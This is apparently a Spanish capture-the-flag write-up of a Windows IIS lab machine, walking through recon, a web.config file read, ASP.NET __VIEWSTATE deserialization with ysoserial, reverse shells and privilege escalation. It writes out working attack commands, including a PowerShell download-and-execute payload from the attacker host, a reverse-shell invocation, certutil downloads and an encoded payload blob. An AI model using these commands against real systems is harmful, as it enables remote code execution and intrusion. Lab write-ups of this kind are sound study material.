 ### Ping
```python
ping -c 1 10.10.11.251
PING 10.10.11.251 (10.10.11.251) 56(84) bytes of data.
64 bytes from 10.10.11.251: icmp_seq=1 ttl=127 time=157 ms

--- 10.10.11.251 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.729/156.729/156.729/0.000 ms
```

### TTL 127= Windows
### nmap
```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-title: pov.htb
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.52 seconds
```
obtenemos el nombre de dominio del host y lo agregamos al /etc/hosts

### Enumeración del puerto http (80)

![[Pasted image 20240310205202.png]]

### Fuzzing con wfuzz (Directorios)
no obtenemos nada interesante por el momento
![[Pasted image 20240310205503.png]]

### Fuzzing con wfuzz (Subdominios)
encontramos un subdominio sospechoso. lo agregamos al /etc/hosts
![[Pasted image 20240310210838.png]]

### Web dev.pov.htb

![[Pasted image 20240311105847.png]]

### BurpSuite
interceptamos la petición de download cv
![[Pasted image 20240310212727.png]]
cambiamos el EVENTVALIDATION= cv.pdf por = /web.config. esto nos muestra información de la pagina la cual la hace vulnerable a una explotacion de VIEWSTATE

### Vulnerabilidad Exploiting __VIEWSTATE
![[Pasted image 20240311105353.png]]
usaremos la herramienta YSoSerial.Net esta herramienta es para maquina windows asi que debes tener una maquina windows donde poder ejecutar esto (tambien puedes ejecutarlo desde kali linux pero debes complementarlo con otras herramientas)

### YSoSerial.Net
usaremos la siguiente sintax
```python
C:\FilesExplotation\ysoserial-1.34\Release>.\ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.64/Invoke-PowerShellTcp.ps1')" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```

![[Pasted image 20240311110529.png]]

### Invoke-PowerShelltcp
ahora usaremos el invoke-powershell para invocar automaticamente esta shell. al final del codigo debemos agregar la siguiente linea 

```python
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

![[Pasted image 20240311110955.png]]

### Servidor con python
estaremos compartiendo este archivo en un servidor con python
![[Pasted image 20240311110845.png]]

### BurpSuite
finalmente usaremos el codigo que hemos generado con el YSoSerial.Net intectandolo en el parametro **VIESTATE** 
Nota: el codigo debe ir URLEncode puede hacerlo desde burpsuite seleccionando el codigo y presionando CTRL + U 
![[Pasted image 20240311111432.png]]
### rlwrap
estaremos a la escucha con rlwrap para recibir nuestra reverse shell
![[Pasted image 20240311105747.png]]

### xml

![[Pasted image 20240311112314.png]]
En este archivo obtenemos otro Usuario llamado **alaading** y la contraseña codificada.

### Import-Clixml 
con import-clixml podemos extraer los datos de ese archivo xml
![[Pasted image 20240311175136.png]]

### Servidor con python 
ahora vamos a descargar RunasCs.exe, psgetsys.ps1 y EnableAllTokenPrivs.ps1
estaremos compartiendo todos estos archivos en nuestro servidor para poder subirlos a la maquina victima
![[Pasted image 20240311181743.png]]

### certutil.exe
usaremos la herramienta certutil para poder descargar los archivos a la maquina victima
```python
certutil.exe -urlcache -split -f "http://10.10.14.64/RunasCs.exe" ".\RunasCs.exe"
```
![[Pasted image 20240311182044.png]]

### RunasCs.exe
ejecutamos RunasCs con las credenciales que hemos conseguido llamamos una cmd.exe en nuestra dirección IP y el puerto
![[Pasted image 20240311182556.png]]

### rlwrap 
hemos conseguido una nueva conexión con las credenciales de alaading
![[Pasted image 20240311183935.png]]

### Escalada de privilegios
podemos ver que el privilegio "SeDebugPrivilege" ha sido deshabilitado
![[Pasted image 20240311184829.png]]

### sfitz
ejecutamos los script que hemos subido anteriormente y procedemos a la escalada 
![[Pasted image 20240311190250.png]]


R0joNK0xfsrbj6hXJWsdR/Aunc4iwYQieYABw5V7xxaSmzHkgHGwy8/AWpbhGk%2btq7aHLsakG6Kx9X2YOZxoalUFpgLGQI0SMMt7REc9UhPTx7RwQYJ5F%2bG%2bPIrF4an95Wm4TzN1afxXl21Ks6gAr7aksLZLuM%2bqQmqWIYlRcmt7qepwSKsTQIXeij0Z3yvleKl0akkk11hY5u0Fd5iyhs1gSYksM2ad6klvG45l0KrdWndWl1yrV1OtImsSOpytC9UMkjYt3LCauyIVH3YmFFXFgFekDZpIO3UsNHxvNa/P69N24/V6jW4/H1BPh63/itiV72Z1QchzB5O4m2gwZt%2bmLZ2jkO%2b3nZRJvjYVk6S5B4VT/ava6Fk/n9UpbEym4nDri9O4QIYKnnNVyYrAkXHnKy4yKqtUBvsOqhIJjJ1VxT/SUGMMYi%2bEM/IhRiLUnUUjxgdPwXlpD2tXiZ4N6khYWNVAF6LqWv3uU3lmIFHx62PC7mR4NU5HXrl3t0Nc%2b/9%2bNIv2GpKzmt7dGO/hylmavRws7K4FOUEcgdZIqwkL3uUBpnMjR64ZB2aJMwtS4e4Y9W2NmH8Kn91cso7ZF523BHvgKANoK9crhHQnskUhQwEsmhb1FZnGs6V/1vfHUb29IJf44nPFJiGq2JFAl9%2bok1L33RUcQISatYQ5vFYRztgtePj57VsHcfS7462S6owQeflANXz5rYigDmN6zImGfsxQRbG3VoJV%2bS6V6/9xrLUaNzrgI5HmlQY3AGBANhwVD71BffEd8aHVTNaNrV4WLs6IoqZ5P/HBRMt20/TjAK07j6ri%2bUYrftMnbJXlxJAjHKOO7PXhHG2unVQb4TDDxvf9DUg/y6k5WQhr9X9iS2fEU5C8HQ97qbDezYwXNe2v0D3Bw%2bMSikiaQjpBypzQP1AtHwOB0H3H59fpYth5KYsWhVG1oACZDuhcwt6e6%2b8cfszTs7NuvBXqzcjPFWZKypB6xAFp47MFe62KaHLhUHAW1eK78ao/yz2jobzW2KUSWEERFfbHZJFmhjPBopkpjHXqnYUIW691RnZuUQpwVYqfTqGbXTNYfG2Q46hYCsLLES%2bL36EVj0PSq1etuAFFP/PWL05YndONUON5ZiyoP/laheq4VDVbKNwZ9EbQuBKhTCXnex463y6ROeY7tYuEDL4lVrQXgxaJ9I%2bikuZJZBze8TUf3Tq0PAUa9kHCxnnJOzb/dPBjHNVQSGo8NmS2Fwa8mJRLHWrjDVYDuje7Zr3A%2bLnldFnSrDRK2qY%2bJnslZGTtL2ZduI83eBGN2nWJxQ2z4FEjq5J8Ux3a3oJ1%2bmMUs3trMQLV8uZSv2Bfc4z2YG2SKpg615CcmGs9AaoCvzdDCnVu0fUkSCeeI94q9cpGmb2XGg%2bUbqVrGwp7gYYu2A%3d%3d